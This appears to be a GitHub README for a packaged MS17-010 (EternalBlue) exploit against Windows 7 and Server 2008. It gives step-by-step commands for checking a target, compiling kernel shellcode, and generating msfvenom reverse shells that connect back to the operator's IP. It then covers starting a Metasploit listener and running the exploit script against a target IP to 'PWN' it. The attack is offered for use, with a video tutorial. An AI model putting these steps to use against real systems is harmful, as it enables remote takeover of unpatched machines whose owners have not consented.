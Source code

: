 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`

## VIDEO TUTORIAL:
https://www.youtube.com/watch?v=p9OnxS1oDc0

## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
    "S6r".'-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64_meterpreter kernel shellcode
Compiling x86_meterpreter kernel shellcode
Compiling x64_shell kernel shellcode
Compiling x86_shell kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
IP for reverse connection:
<YOUR-IP>
PORT meterpreter you want x64 to listen on:
<SOME PORT>
PORT meterpreter you want x86 to listen on:
<SOME OTHER PORT>
PORT shell you want x64 to listen on:
<SOME OTHER PORT>
PORT shell you want x86 to listen on:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell or 2 meterpreter and shell
0
```

After the script finishes there will be a shellcode binary named `sc_all_mpr.bin` sc_all_shl.bin ` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the propmts, for example:
  __
  /,-
  ||)
  \\_, )
   `--'--"S6R"
Enternal Blue Metasploit Listener

IP for reverse connection:
<YOUR-IP>
PORT for x64 reverse connection meterpreter:
<SOME PORT>
PORT for x86 reverse connection meterpreter::
<SOME OTHER PORT>
PORT for x64 reverse connection shell:
<OME OTHER PORT>
PORT for x86 reverse connection shell:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell or 2 meterpreter and shell:
0,1,2
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run `python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all_mpr.bin or sc_all_shl.bin >`

This has only been tested on Windows 7/Server 2008, however the exploit included in this repo also includes the Windows 8 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
